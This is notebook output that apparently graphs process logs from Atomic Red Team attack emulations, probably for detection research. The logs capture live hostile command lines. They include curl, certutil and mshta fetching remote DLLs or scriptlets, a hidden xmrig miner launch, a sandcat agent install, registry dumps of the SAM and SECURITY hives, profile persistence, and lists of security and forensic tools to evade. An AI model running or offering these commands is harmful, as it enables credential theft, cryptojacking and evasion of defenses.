92037 : cmd.exe_/C_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_c:\users\public\music\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_--output_c:\users\public\music\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_c:\programdata\allthethingsx64.dll_&&_C:\Windows\System32\Curl.exe_-k_https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll_-o_%Temp%\allthethingsx64.dll&C:\Windows\system32\cmd.exe&cmd.exe&2444
269200 : C:\Windows\System32\Curl.exe__-k_https://github.com/redca

<Figure size 432x288 with 0 Axes>



 16%|█▋        | 27/165 [11:06<04:53,  2.13s/it]

Number of relations in the graph: 20
736456 : cmd.exe_/C_C:\Windows\System32\Curl.exe_-s_-A_"HttpBrowser/1.0"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"Wget/1.9+cvs-stable_(Red_Hat_modified)"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"Opera/8.81_(Windows_NT_6.0;_U;_en)"_-m3_www.google.com_>nul_2>&1_&&_C:\Windows\System32\Curl.exe_-s_-A_"*<|>*"_-m3_www.google.com_>nul_2>&1&C:\Windows\system32\cmd.exe&cmd.exe&9308
183551 : C:\Windows\System32\Curl.exe__-s_-A_"HttpBrowser/1.0"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&6936
385595 : C:\Windows\System32\Curl.exe__-s_-A_"Wget/1.9+cvs-stable_(Red_Hat_modified)"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&7608
513501 : C:\Windows\System32\Curl.exe__-s_-A_"Opera/8.81_(Windows_NT_6.0;_U;_en)"_-m3_www.google.com__&C:\Windows\System32\curl.exe&curl.exe&8124
783167 : C:\Windows\System32\Curl.exe__-s_-A_"*<|>*"_-m3_www.google.com_&C:\Windows\System32\curl.exe&curl.exe

<Figure size 432x288 with 0 Axes>



 17%|█▋        | 28/165 [11:09<05:05,  2.23s/it]

Number of relations in the graph: 19
419036 : "C:\Program_Files\Google\Chrome\Application\chrome.exe"_--type=utility_--utility-sub-type=network.mojom.NetworkService_--lang=zh-TW_--service-sandbox-type=none_--mojo-platform-channel-handle=1860_--field-trial-handle=1796,i,16222477317361945607,16948030174847217114,131072_/prefetch:8&C:\Program_Files\Google\Chrome\Application\chrome.exe&chrome.exe&392
298583 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-110-133.github.com:https
144367 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$wc=New-Object_System.Net.WebClient;$output=\"PowerShellCore.msi\";$wc.DownloadFile(\"https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi\",_$output);Start-Process_msiexec.exe_-ArgumentList_\"/package_PowerShellCore.msi_/quiet_ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1_ENABLE_PSREMOTING=1_REGISTER_MANIFEST=1\"_-Wait;$env:Path_+=_\";C:\Program_Files\Powershell\6\";Start-Process_pwsh_-ArgumentList_\"-c_C:\Users\Public\sandcat.go

<Figure size 432x288 with 0 Axes>



 18%|█▊        | 29/165 [11:11<05:00,  2.21s/it]

Number of relations in the graph: 17
632069 : certutil__-urlcache_-split_-f_https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt_Atomic-license.txt&C:\Windows\system32\certutil.exe&certutil.exe&5284
688789 : DESKTOP-BA1RQFC.blueteam.com&cdn-185-199-108-133.github.com:https
436925 : mshta.exe__javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()&C:\Windows\system32\mshta.exe&mshta.exe&9664
738958 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Invoke-WebRequest_-Uri_https://github.com/xmrig/xmrig/releases/download/v6.11.2/xmrig-6.11.2-msvc-win64.zip_-OutFile_xmrig-6.11.2-msvc-win64.zip;Expand-Archive_-LiteralPath_xmrig-6.11.2-msvc-win64.zip_-DestinationPath_.\;Start-Process_\".\xmrig-6.11.2\xmrig.exe\"_-WindowStyle_Hidden;Start-Sleep_-Seconds_60;Stop-Process_-Name_\"xmrig\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3424
649154 : "C:\Win

<Figure size 432x288 with 0 Axes>



 18%|█▊        | 30/165 [11:13<04:52,  2.17s/it]

Number of relations in the graph: 16
453229 : powershell.exe_-ExecutionPolicy_Restricted_-Command_Write-Host_'Final_result:_1';&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9248
691877 : C:\Windows\System32\WindowsPowerShell\v1.0\Microsoft.PowerShell_profile.ps1
556366 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Add-Content_$profile_-Value_\"\";_Add-Content_$profile_-Value_\"Start-Process_calc.exe\";_powershell_-Command_exit"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9708
664977 : C:\Users\ezk\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
239841 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-Command_exit&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4732
../graph_benign2/T1546.013_f9a968af61d36983448c74cca5464e17.png has been generated!
T1564.004_76b6066fe170d38215251102e42be973


<Figure size 432x288 with 0 Axes>



 19%|█▉        | 31/165 [11:15<04:43,  2.12s/it]

Number of relations in the graph: 16
53466 : powershell.exe_-ExecutionPolicy_Bypass_-C_"echo_\"test\"_>_$env:TEMP\T1564.004_has_ads_powershell.txt_|_set-content_-path_test.txt_-stream_adstest.txt_-value_\"test\";_set-content_-path_$env:TEMP\T1564.004_has_ads_powershell.txt_-stream_adstest.txt_-value_\"test2\";_set-content_-path_._-stream_adstest.txt_-value_\"test3\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3320
682194 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_powershell.txt
783754 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_powershell.txt:adstest.txt
197104 : C:\Windows\System32:adstest.txt
../graph_benign2/T1564.004_76b6066fe170d38215251102e42be973.png has been generated!
T1003.002_7fa4ea18694f2552547b65e23952cabb


<Figure size 432x288 with 0 Axes>



 19%|█▉        | 32/165 [11:17<04:29,  2.03s/it]

Number of relations in the graph: 15
377814 : cmd.exe_/C_reg_save_HKLM\sam_%temp%\sam_&&_reg_save_HKLM\system_%temp%\system_&&_reg_save_HKLM\security_%temp%\security&C:\Windows\system32\cmd.exe&cmd.exe&5012
487646 : reg__save_HKLM\sam_C:\Users\ezk\AppData\Local\Temp\sam_&C:\Windows\system32\reg.exe&reg.exe&9544
308038 : reg__save_HKLM\system_C:\Users\ezk\AppData\Local\Temp\system_&C:\Windows\system32\reg.exe&reg.exe&5460
128703 : reg__save_HKLM\security_C:\Users\ezk\AppData\Local\Temp\security&C:\Windows\system32\reg.exe&reg.exe&6832
166300 : C:\Users\ezk\AppData\Local\Temp\sam
../graph_benign2/T1003.002_7fa4ea18694f2552547b65e23952cabb.png has been generated!
T1490_e90756bb6dcd21462dc4cc452661df91


<Figure size 432x288 with 0 Axes>



 20%|██        | 33/165 [11:20<05:11,  2.36s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 21%|██        | 34/165 [11:22<05:16,  2.41s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 21%|██        | 35/165 [11:25<05:13,  2.41s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 22%|██▏       | 36/165 [11:27<05:14,  2.44s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 22%|██▏       | 37/165 [11:30<05:09,  2.42s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 23%|██▎       | 38/165 [11:32<05:01,  2.38s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____"f-secure_gatekeeper",____"f-secure_hips",____"fsbts",____"fsni",____"fsvista",____"f-secure_filter",____"

<Figure size 432x288 with 0 Axes>



 24%|██▎       | 39/165 [11:34<05:03,  2.41s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 24%|██▍       | 40/165 [11:37<04:52,  2.34s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 25%|██▍       | 41/165 [11:39<04:50,  2.34s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
712579 : $forensicProcesses_=_@(____"apimonitor-x64",____"apimonitor-x86",____"autopsy64",____"autopsy",____"autoruns64",____"autoruns",____"autorunsc64",____"autorunsc",____"binaryninja",____"blacklight",____"cff_explorer",____"cutter",____"de4dot",____"debugview",____"diskmon",____"dnsd",____"dnspy",____"dotpeek32",____"dotpeek64",____"dumpcap",____"evidence_center",____"exeinfope",____"fakedns",____"fakenet",____"ffdec",____"fiddler",____"fileinsight",____"floss",____"gdb",____"hiew32demo",____"hiew32",____"hollows_hunter",____"idaq64",____"idaq",____"idr",____"ildasm",____"ilspy",____"jd-gui",____"lordpe",____"officemalscanner",____"ollydbg",____"pdfstreamdumper",____"pe-bear",____"pebrowse64",____"peid",____"pe-sieve32",____"pe-sieve64",____"pestudio",____"peview",____"ppee",____"procdump64",____"p

<Figure size 432x288 with 0 Axes>



 25%|██▌       | 42/165 [11:42<05:12,  2.54s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
